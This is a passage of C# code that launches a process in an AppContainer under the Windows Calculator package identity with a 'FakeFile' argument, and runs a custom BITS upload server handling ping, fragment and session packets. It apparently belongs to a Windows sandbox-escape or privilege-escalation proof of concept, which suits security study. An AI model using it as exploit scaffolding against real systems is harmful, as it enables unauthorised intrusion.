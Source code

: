 ```
				ApplicationName = mainExe,
				CommandLine = mainExe + " " + FakeFile



			};
			config.SetAppContainerSidFromName("microsoft.windowscalculator_8wekyb3d8bbwe");

			config.Capabilities.AddRange(caps);

			using (var p = Win32Process.CreateProcess(config))
			{
				p.Process.Wait();
			}
			return true;

		}


		private static void Process_CANCEL_SESSION(HttpListenerContext context)
		{
			Guid SessionId = Guid.Parse(context.Request.Headers["BITS-Session-Id"].ToString());
			context.Response.Headers["BITS-Packet-Type"] = "Ack";
			context.Response.ContentLength64 = 0;
			context.Response.Headers["BITS-Session-Id"] = SessionId.ToString();
		}

		private static void Process_PING(HttpListenerContext context)
		{
			context.Response.Headers["BITS-Packet-Type"] = "Ack";
			context.Response.Headers["BITS-Error-Code"] = "1";
			context.Response.Headers["BITS-Error-Context"] = "";
			context.Response.ContentLength64 = 0;
		}

		private static void Process_CLOSE_SESSION(HttpListenerContext context)
		{
			Guid SessionId = Guid.Parse(context.Request.Headers["BITS-Session-Id"].ToString());
			context.Response.Headers["BITS-Packet-Type"] = "Ack";
			context.Response.ContentLength64 = 0;
			context.Response.Headers["BITS-Session-Id"] = SessionId.ToString();
		}
		private static void Process_FRAGMENT(HttpListenerContext context)
		{


			Guid SessionId = Guid.Parse(context.Request.Headers["BITS-Session-Id"].ToString());
			//string ContentName = context.Request.Headers["Content-Name"].ToString();
			string ContentRange = context.Request.Headers["Content-Range"].ToString();
			List<string> ContentRangeList = ContentRange.Split(new string[] { "/" }, StringSplitOptions.RemoveEmptyEntries).ToList();
			List<string> crange = ContentRangeList[0].Split(new string[] { "-" }, StringSplitOptions.RemoveEmptyEntries).ToList();
			string total_length = ContentRangeList[1];
			string range_start = crange[0];
			string range_end = crange[1];
			Console.Write("Process Process_FRAGMENT:range_start:" + range_start + ",range_end:" + range_end + ",total_length:" + total_length + Environment.NewLine);
			context.Response.Headers["BITS-Packet-Type"] = "Ack";
			context.Response.ContentLength64 = 0;
			context.Response.Headers["BITS-Session-Id"] = SessionId.ToString();
			context.Response.Headers["BITS-Received-Content-Range"] = (int.Parse(range_end) + 1).ToString();
```